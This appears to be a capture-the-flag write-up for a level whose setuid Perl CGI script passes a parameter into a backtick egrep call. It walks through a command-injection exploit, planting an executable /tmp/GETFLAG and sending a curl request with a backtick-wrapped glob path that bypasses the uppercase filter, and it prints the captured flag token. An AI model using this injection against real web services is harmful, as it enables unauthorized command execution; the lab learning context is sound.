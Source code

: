 # Level 11

As `level12`, running `ls` gives us a perl script...

```perl
  $> cat cat level12.pl 

  #!/usr/bin/env perl
  # localhost:4646
  use CGI qw{param};
  print "Content-type: text/html\n\n";    

  sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);     
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
  }

  sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }
  }

  n(t(param("x"), param("y")));
```

> This script is running on `<VM-IP>:4646` and takes two parameters, the second being useless we can omit it.


If we look closer, we can get more details about the other parameter...

```perl
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
```

> Before being evaluated by [`egrep`](https://linux.die.net/man/1/egrep), some regex are applied on it. First, it converts any lowercase character into its uppercase counterpart then, if any whitespace character is found in the output, it removes everything starting this character to the end of the string.

In order to keep our input intact we must only use uppercase letters and avoid whitespaces. If we look for more details about this script with `ls -l` ...

```shell
  $> ls -l
  total 4
  -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

This file is owned by `flag12` which means we only have to make this script execute `getflag` to pass this level.

```shell
  $> echo "getflag > /tmp/password" > /tmp/GETFLAG
  $> chmod 777 /tmp/GETFLAG
```
> We must add at least execution rights on this file to be able to run it without the need of `sh` or `bash`.

Once that's done, last step is asking the script to execute our file using `curl`.

```shell
  $> curl 'http://<VM-IP>:4646?x=`/*/GETFLAG`'
```

> Quotes surrounding the url are important to avoid the shell to interpret what we are assigning to `x` and the `*` allows us to get to the `GETFLAG` file without specifying the `/tmp/` folder which does not respect the first condition.

Finally, all we have to do is retrieving the password from the file we stored the `getflag` feedback into.

```shell
  $> cat /tmp/password
  Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

So, `g1qKMiRpXf53AWhDaU7FEkczr` is the flag for this level.


